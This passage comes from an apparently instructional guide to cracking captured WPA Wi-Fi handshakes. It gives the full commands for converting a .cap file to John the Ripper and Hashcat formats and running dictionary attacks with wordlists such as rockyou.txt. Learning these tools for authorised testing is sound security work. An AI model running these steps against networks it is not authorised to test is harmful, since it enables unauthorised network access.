 - `WPA-01.cap`: Handshake capture.
    
- `-w /opt/wordlist.txt`: Wordlist to test.
    
- Output: Shows cracking progress and displays `KEY FOUND!` if successful.
    

### 3.C — John the Ripper

**Convert handshake to John format:**

```bash
/opt/wpapcap2john WPA-01.cap > hash
```

- `wpapcap2john`: Converts .cap into a hash format John can process.
    
- Output redirected to file `hash`.
    

**Crack with wordlist:**

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=wpapsk
```

- `--wordlist`: Path to dictionary.
    
- `--format=wpapsk`: Specifies WPA cracking mode.
    

**Show results:**

```bash
john hash --show
```

- Displays recovered passwords.
    

### 3.D — Hashcat

**Convert capture to mode 22000 format:**

```bash
hcxpcapngtool -o hash WPA-01.cap
```

- `hcxpcapngtool`: Converts .cap into Hashcat’s unified WPA format.
    
- `-o hash`: Output file named `hash`.
    

**Run dictionary attack:**

```bash
hashcat -m 22000 hash /opt/wordlist.txt
```

- `-m 22000`: Hashcat mode for WPA‑EAPOL/PMKID.
    
- `hash`: Converted handshake.
    
- `/opt/wordlist.txt`: Wordlist path.
    